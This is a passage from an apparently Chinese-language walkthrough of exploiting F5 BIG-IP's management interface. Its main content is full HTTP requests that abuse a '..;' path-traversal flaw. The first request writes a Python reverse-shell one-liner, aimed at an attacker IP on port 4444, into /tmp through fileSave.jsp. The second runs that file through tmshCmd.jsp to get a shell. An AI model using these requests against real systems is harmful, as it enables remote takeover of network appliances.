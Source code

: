   
  
F5 BIGIP自带python，所以也可以使用python来反弹shell：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHShdZSr4l42H4Bf21GH3NH5Lswic7Iv04XcL3256fLYic36vUvgrOQqSw/640?wx_fmt=png "")  
  
操作流程如下所示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHt5e6ARnWSvU9w8FKRF8ZAf5gtwutxhp2DK3N07I2fsS8hhVUMia9ibnA/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/1.txt&content=python+-c+'import+socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((&#34;192.168.174.131&#34;,4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([&#34;/bin/bash&#34;,&#34;-i&#34;]);' HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F




```

  
成功写入文件：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuH0LC3Lrt21kHSezV7KJB3CJ2ZmmS1VRqRYzTWKINeUrWVXtKbYVM9wA/640?wx_fmt=png "")  
  
Step 3:反弹shell回来  
  
a、bash反弹shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHedevfJicKJYxKkqZyicrJTwc9VsHa63eO6YOuplQ2MMwtpvJL390zFdg/640?wx_fmt=png "")  

```
GET/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/1.txt HTTP/1.1
Host: 192.168.174.214
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=3DD313DBE2953C844A648AF0EF8BCE1F




```